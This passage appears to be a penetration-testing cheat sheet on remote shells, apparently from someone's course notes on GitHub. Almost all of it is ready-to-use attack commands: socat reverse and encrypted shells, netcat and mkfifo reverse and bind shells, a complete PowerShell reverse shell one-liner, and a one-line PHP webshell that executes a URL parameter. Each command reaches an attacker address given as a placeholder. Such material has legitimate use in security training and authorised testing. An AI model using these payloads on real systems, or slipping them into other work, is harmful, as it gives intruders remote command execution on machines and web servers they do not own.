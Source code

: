 *a fully stable Linux tty reverse shell*
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
<img src="https://user-images.githubusercontent.com/73976100/222942912-2b022e20-e9f5-4b14-b888-465bcee32fad.png">  
left: listener running on our local attacking machine  
right: compromised target  
<details></details>

### Socat Encrypted Shells  
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`: generate a certificate (on an attacking machine is easy)  
`cat shell.key shell.crt > shell.pem`: merge the two created files into a single `.pem` file  
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`: set up a reverse shell listener  
`verify=0`: not bother trying to validate  
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`: connect back  
Bind shell  
Target:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`  
Attacker:
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`  
<details></details>

### Common Shell Payloads  
`nc.exe`: `/usr/share/windows-resources/binaries` in Kali     
`nc -lvnp <PORT> -e /bin/bash`  
`nc <LOCAL-IP> <PORT> -e /bin/bash `  
bind shell: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`  
reverse shell: `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`  
Powershell reverse shell:  
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```  
<img src="https://user-images.githubusercontent.com/73976100/222944957-405871af-45c6-45aa-b8d7-e53fa21ee8d5.png">  

### WebShells
"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server.   

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`  
This will take a GET parameter in the URL and execute it on the system with shell_exec().  
<img src="https://user-images.githubusercontent.com/73976100/222945750-dac50e93-affe-4e85-96b6-c223ae5689d4.png" width="600">  

